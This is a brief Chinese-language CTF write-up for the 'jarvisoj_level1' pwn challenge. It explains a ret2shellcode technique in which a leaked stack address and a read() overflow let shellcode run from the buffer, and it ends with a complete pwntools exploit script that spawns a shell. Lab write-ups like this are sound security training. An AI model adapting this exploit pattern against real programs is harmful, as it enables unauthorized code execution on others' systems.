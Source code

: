 ```yaml
---
title: 'jarvisoj_level1'
date: 2024-01-18 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2shellcode]
---
```

![image-20240118234607205](../assets/img/old_imgs/image-20240118234607205.png)

- `ret2shellcode`

1. 存在漏洞函数`vulnerable_function`
2. `printf`函数泄露了`buf`栈上地址
3. `read`函数中,`buf`变量中存在溢出
4. 往`buf`写入`shellcode`再跳转到`buf`栈上

```python
from pwn import *
io = process('./level1')

io.recvuntil(b'What\'s this:')
buf_addr = eval(io.recv(10))
shellcode = asm(shellcraft.sh())
payload = shellcode
payload = payload.ljust(0x88,b'\x00')+p32(0)+p32(buf_addr)
io.sendline(payload)
io.interactive()
```



